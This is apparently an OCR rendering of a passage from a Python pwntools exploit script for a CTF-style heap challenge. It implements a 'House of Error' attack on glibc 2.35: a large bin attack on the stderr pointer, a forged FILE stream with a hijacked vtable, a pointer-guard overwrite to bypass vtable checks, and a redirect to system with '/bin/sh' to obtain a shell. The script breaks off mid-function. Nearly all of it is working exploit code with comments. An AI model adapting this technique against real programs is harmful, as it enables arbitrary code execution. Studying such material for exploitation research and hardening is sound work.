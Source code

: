 ```python
    io.sendlineafter(b': ', str(pwnie_land).encode())
    unlock_pwnie_land(pwnie_land)
    
def largebin_offset(address):
    return address - 0x20

def house_of_error():
    # First step in House of Error is to do some heap feng shui and craft a large bin attack. 
    # glibc 2.30 introduced a mitigation in large bins but there is another unpatched path from where we can perform a large bin attack again!
    # If you are targeting an older glibc you can perform the classical large bin attack instead.
    
    # Useful resources to read about large bin attack:
    # https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/
    # https://github.com/shellphish/how2heap/blob/master/glibc_2.34/large_bin_attack.c
    
    # I will not describe the large bin attack as others already have done it, you can read about the attack from the above resources.
    
    # Note that in this particular glibc 2.35 build we have tcache enabled.
    
    target = largebin_offset(libc.sym.stderr) # we will target stderr pointer to unleash a House of Kiwi style attack inorder to execute our fake FILE stream. 
    # note that as I commented in the source code, stderr must not be used in main! Because then stderr will be located in the data section of our program.
    # Although there is still a way to exploit the program, even with stderr being used inside our code.
    # We can overwrite the stderr _chain pointer and upon exit our fake FILE stream will be triggered.
    # But this requires our fake FILE streams to not be corrupted until _IO_cleanup
    # In our case we cannot exit the program so this will not work in our case.
    # This is the main drawback of this technique we have to rely on some mechanism that will trigger our fake FILE stream.
    
    _locker = libc.address + 0x1f21f8
    
    _IO_UNBUFFERED = 0x0002
    
    pointer_guard = libc.address - 0x2890
    
    what = libc.sym._IO_vtable_check # we want to defeat vtable check.
    where = pointer_guard
    
    what2 = libc.sym.system # this will have both the effect of zeroing out the least significant byte of &stderr, pointing back to a different location in the heap but also will have a purpose as a fake vtable in our final stage. 
    where2 = libc.sym.stderr - 7
    
    # we want to craft our fake FILE stream first.
    fake_fs = FileStructure(null = _locker)
    fake_fs.vtable = libc.sym._IO_mem_jumps + (0x60 - 0x38) # __overflow => _sync => _IO_mem_sync ;)
    
    fake_fs._IO_save_end = (libc.sym.stderr - 7) - 0x60 # this will be our fake vtable in our final fake FILE stream.
    
    fake_fs = bytes(fake_fs)
    
    fake_fs = fake_fs[0x10:] + p64(0)*2 + p64(where) + p64(where2)
    
    final_fake_fs = p8(0x0)*0x60 + b'/bin/sh\x00'
    
```